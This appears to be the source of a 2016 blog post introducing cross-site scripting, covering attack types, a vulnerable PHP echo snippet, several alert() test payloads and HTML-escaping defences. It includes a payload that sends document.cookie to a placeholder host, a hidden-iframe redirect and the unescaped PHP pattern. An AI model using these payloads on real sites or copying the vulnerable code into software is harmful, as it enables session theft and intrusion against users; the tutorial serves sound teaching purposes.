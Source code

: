 ```yaml
---
layout:     post
title:      "Cross Site Scripting"
subtitle:   "Introduction to XSS"
date:       2016-08-25 6:00:00
author:     "W3ndige"
permalink: /:title/
category: "Web Security"
---
```


<p>Cross Site Scripting (XSS) is a name of one of the most common vulnerability in web applications. It's third in the list of the newest <a href="https://www.owasp.org/index.php/Top10">OWASP Top Ten</a> document so it's essential to know how it works. </p>
<p>Browsers diplay the content of a website using a mix of HTML (HyperText Markup Language which is a core of a webpage) and JavaScript responsible for making things run in response of events (like clicking a button). Of course there are other essential elements like CSS to style the webpage but in order to perform a XSS attack we will only need HTML and Javascript. </p>
<p>Essence of XSS attack is to inject some malicous code (for example Javascript or other scripting language that can be opened in a browser) into the browser of client using vulnerable web application. That way, an attacker has an ability to execute any malicious code in victim's browser. </p>
<p>But why is it so powerul? Let's consider this example: You're running some simple WordPress website with small audience. As you don't want spammers to make comments under your posts, you enable the option to only publish comments allowed by yourself. In the meantime some malicous hacker wanted to destroy your webpage (who knows why but there are still people like that). He firstly tests if you really have to allow comments, and then injects into the comment box malicious JavaScript code that will steal cookies and send them to him. Now as you've got a notification that someone published a new comment, you open the WordPress admin page to see what someone has written. In the moment you view this comment, this malicous code steals your admin cookie and sends it to the attacker. Few hours later your site has been pawned. </p>
<p>Powefull, right? But enough story time for today, let's jump into some technical details. </p>








<h1>Potential results of XSS attack</h1>
<ul>
<li><b>Stealing session cookies</b>
<p>With that attacker is being able to steal someone's logged session - like in the story.</p>
{% highlight html %}
<svg onload=fetch(‘//HOST/?cookie=’+document.cookie)>
{% endhighlight %}
</li>
<li><b>Substituting a content of a website</b>
<p>Users can be tricked into thinking that "Your site have been hacked".</p>
{% highlight html %}
<svg onload=”document.body.innerHTML='<img src=//HOST/IMAGE>'”>
{% endhighlight %}
</li>
<li><b>Capture the keys pressed by the user</b>
<p>Ability to log what someone is writing... I don't have to say why it's useful ;)</p>

</li>
<li><b>Crash the browser</b>
<p>Local Denial Of Service Attack. Mostly frustrating.</p>
</li>
<li>
<b>Redirect user’s browser to another website</b>
<p>Attacker can redirect the browser to another webpage that may be prepared with some customized malware ready to attack victims operating system. </p>
{% highlight html %}
<iframe src=//HOST/ style=display:none></iframe>
{% endhighlight %}
</li>
<li>
<b>Creating fake HTML form</b>
<p>Where an attacker would be able to trick user into entering their credentials and form would send them to an attacker. </p>
</li>
</ul>

<h1>Types of XSS attacks</h1>
<p><b>Persistent (stored) XSS</b> - This type of attack relies on the fact that webpage may store some input, or file in a database. Just like in our story, comments were stored in the WordPress database. It consists of injecting the javascript code into the server side. That's why it's called stored. Every user that sees this stored content is a potential victim. </p>
<p><b>Reflected XSS</b> - When the website or application just reflects back content maliciously manipulated by user (usually in the URL), we have a reflected XSS attack. Victim usually unwittingly opens a link with some JavaScript code which is sent to the web application. Then this application sends back (that's why reflected) whatever the victim asked for with this JavaScript code resulting in executing it in the browser. </p>
<p>Let's take a look at this simple PHP code: </p>
{% highlight php %}
$username = $_GET[‘user’];
echo “<h1>Welcome, ” . $username . “!</h1>”;
{% endhighlight %}
<p>Which would take an username from the URL just like that: </p>
{% highlight html %}
http://example.com/welcome.php?user=Mike
{% endhighlight %}
<p>If you open the web and view the source code it would look like this</p>
{% highlight html %}
<h1>Hello, John!</h1>
{% endhighlight %}
<p>But what if we swap the name with some JavaScript code? </p>
{% highlight html %}
http://example.com/welcome.php?user=<script>alert("XSS")</script>
{% endhighlight %}
<p>After checking the source code of the same webpage opened with this URL, you would notice that the alert box with "XSS" text was triggered.   </p>
{% highlight html %}
<h1>Hello, <script>alert("XSS")</script>!</h1>
{% endhighlight %}
<p>Now with that knowledge you can enter some more malicous code. Reflected XSS attack ready ;)</p>

<p><b>DOM Based XSS</b> is an attack where the malicious code is executed as a result of modyfing DOM (Document Object Model). It's rarest type of XSS attack. Read more at <a href="https://www.owasp.org/index.php/DOM_Based_XSS">OWASP</a>.</p>

<h1>XSS Examples</h1>
<p><b>1. With script tag</b></p>
{% highlight html %}
<script>alert("XSS")</script>
{% endhighlight %}
<p><b>2. With body tag</b></p>
{% highlight html %}
<p><body onload=alert("XSS")></p>
{% endhighlight %}
<p><b>3. With img tag</b></p>
{% highlight html %}
<p><img src="blabla" onerror="alert("XSS")></img></p>
{% endhighlight %}
<p><b>4. Or any other tag</b></p>
{% highlight html %}
<svg onload=alert("XSS")>
{% endhighlight %}
{% highlight html %}
<x onmouseover=alert("XSS")>
{% endhighlight %}
<p><b>5. Resource tag like iframe</b></p>
{% highlight html %}
<iframe src=javascript:alert("XSS")>
{% endhighlight %}
<p><b>6. Or object tag</b></p>
{% highlight html %}
<object data=javascript:alert("XSS")>
{% endhighlight %}
<h1>How to prevent XSS?</h1>
<p>All right, as we know how XSS attacks works, let's move on to prevention. Essential thing to do is to filter any data sent from the user before viewing them in application (like "<" and ">", tag attributes or HTML entities ). </p>
{% highlight html %}
& --> &amp;
< --> &lt;
> --> &gt;
" --> &quot;
' --> &#x27;     
/ --> &#x2F;
{% endhighlight %}
<p>That method will prevent most of the XSS attacks but for the most sophisticated ones it may be helpful to read <a href="https://www.owasp.org/index.php/XSS_%28Cross_Site_Scripting%29_Prevention_Cheat_Sheet">XSS Prevention Sheet</a>. Another helpful thing would be prevention on the client side - like installing NoScript addition. </p>

<p>As always - thanks for reading and exploring this topic with me. Now after better understanding of XSS we can look for vulnerabilities in many different web applications.</p>
